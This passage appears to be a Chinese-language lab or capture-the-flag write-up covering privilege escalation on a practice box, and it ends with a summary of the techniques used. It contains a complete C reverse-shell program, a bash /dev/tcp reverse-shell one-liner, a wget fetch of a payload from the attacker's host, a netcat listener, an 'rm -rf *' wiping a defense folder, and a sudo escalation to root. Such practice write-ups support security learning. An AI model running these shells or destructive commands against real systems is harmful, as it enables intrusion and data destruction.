

- 查看 c 程序发现就是把我们踢出去的那个文件，我们修改一个程序的源码，让他反弹一个 shell
#include <stdio.h> | |
#include <sys/socket.h> | |
#include <sys/types.h> | |
#include <stdlib.h> | |
#include <unistd.h> | |
#include <netinet/in.h> | |
#include <arpa/inet.h> | |
int main(void){ | |
int port = 1234; | |
struct sockaddr_in revsockaddr; | |
int sockt = socket(AF_INET, SOCK_STREAM, 0); | |
revsockaddr.sin_family = AF_INET; | |
revsockaddr.sin_port = htons(port); | |
revsockaddr.sin_addr.s_addr = inet_addr("192.168.50.136"); | |
connect(sockt, (struct sockaddr *) &revsockaddr, | |
sizeof(revsockaddr)); | |
dup2(sockt, 0); | |
dup2(sockt, 1); | |
dup2(sockt, 2); | |
char * const argv[] = {"sh", NULL}; | |
execve("/bin/bash", argv, NULL); | |
return 0; | |
} |
这里有两种方式
- 把 rev 和 supersecretfileuc.c 全部删掉（但是实际上操作的时候显示内存已满无法下载，推荐第二种）
删掉 rev 和 supersecretfileuc.c
rm -rf rev rm -rf supersecretfileuc.c |
kali 开启 http 将文件上传到靶机上
kali开启 | |
python3 -m http.server 8080 | |
靶机输入 | |
cd /var/www/wordpress/.git | |
wget http://192.168.50.135:8080/supersecretfileuc.c | |
chmod 777 supersecretfileuc.c |
- 删掉 rev，利用 cat 对 supersecretfileuc.c 进行修改文件
rm -rf rev | |
cat supersecretfileuc.c // 将上面的反弹shell代码复制进去 |
- kali 开启监听
nc -lvvp 1234 |

# 夺回权限

cd /root/defense | |
rm -rf * |
两个 flag
- /root/root.txt

- /home/oxdf/user.txt

# 靶场思路
- 基本信息收集
- 主机 IP
- 端口信息
- 网页注释
- 利用工具爆破目录文件
- wfuzz 文件包含测试点
- hashcat 根据规则写密码
- hydra 跑爆破账号密码
- sudo -l 列出所有可以执行的命令
sudo -u 用户 /usr/bin/time /bin/bash | |
bash -i >& /dev/tcp/IP/port 0>&1 | |
python3 -c 'import pty;pty.spawn("/bin/bash")' |
- 查找某个账号下有权限的文件
find / -group ippsec -type d 2>/dev/null | grep -v proc | |
-group 按用户组查找 | |
-type d 查找目录 | |
f 查找普通文件 | |
l 查找软链接文件 | |
grep -v 显示不包含匹配文本的所有行 |
- python3 -m http.server 8080
- wget url
- 用到的链接
- https://gtfobins.github.io/
- https://www.revshells.com/
# 所学知识
- 反弹 shell
bash -i >& /dev/tcp/IP/port 0>&1 |
- python 升级切换交互式 shell
python3 -c 'import pty;pty.spawn("/bin/bash")' |
- python 创建 http 服务
python3 -m http.server 8080 |
- 查找某个用户下有权限的目录
fine / -group 用户 -type d 2>/dev/null | grep -v proc |
- 查看可执行命令
sudo -l |